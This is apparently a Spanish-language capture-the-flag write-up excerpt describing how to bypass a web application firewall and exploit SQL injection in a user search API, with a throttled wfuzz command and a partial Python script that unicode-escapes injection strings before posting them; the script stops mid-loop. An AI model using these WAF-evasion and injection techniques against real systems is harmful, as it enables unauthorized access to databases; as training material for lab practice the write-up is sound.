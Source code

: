 ##### WAF Bypassing
Si visitamos la pagina principal, vemos un dashboard que no tiene ninguna funcionabilidad habilitada, sin embargo, vemos un buscador de *usuarios* (Colleage Finder) que es vulnerable a **SQLi**. Nos percatamos que hay un **WAF** ( Web Application Firewall ) ya que al hacer multiples peticiones, el codigo de estado se empieza a tornar a **403**, se va tener que ir con precaución a la hora de ejecutar fuerza bruta.

Podemos usar **WFUZZ** para fuzzear por caracteres en el *Input* pero tomando en cuenta el **WAF**
asi que procederemos de la siguiente forma:
```
# wfuzz -c --hh=200 -X POST -s 1 -w diccionario.txt -d '{"name":"FUZZ"}' http://<ip>/ -H "content-type: application/json"
```

Y vemos que como resultado, nos muestra los signos tipicos de campos vulnerables a **SQLi**:
El simbolo que nos interesa especialmente es el **\\**  ya que **sqlmap** suele tirar de este simbolo en algunos de sus **tampers** 

---------
#### Advanced Python Scripting - Creation of an automation tool to handle Unicode in SQL injection

Como es una labor algo tardia, el estar convirtiendo las letras a **Decimal** y posteriormente a **Hexadecimal**. podemos hacer un script en python3:

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, signal, time, json, sys

# ctrl + c 
def def_handler(sig,frame):
	print("\m\n[!] Saliendo...\n")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://ip/api/getColleagues"

# Funciones
def getUnicode(sqli):

	sqli_mod = ""
	
	for character in sqli:
		sqli_mod += "\\u00" + hex(ord(character))[2::]
		
	return sqli_mod

def makeRequests(sqli_mod):
	
	headers = {'Content-Type':'application/json;charset=utf-8'}

	post_data = '{"name":"%s"}' % sqli_mod
	
	# Podemos agregar un proxy para ver como se esta tramitando la peticion
	r = requests.post(main_url, data=post_data, headers=headers)
	
	data_json = json.loads(r.text)
	return(json.dumps(data_json, indent=4))
	
if __name__ == "__main__":
	
	while true:
```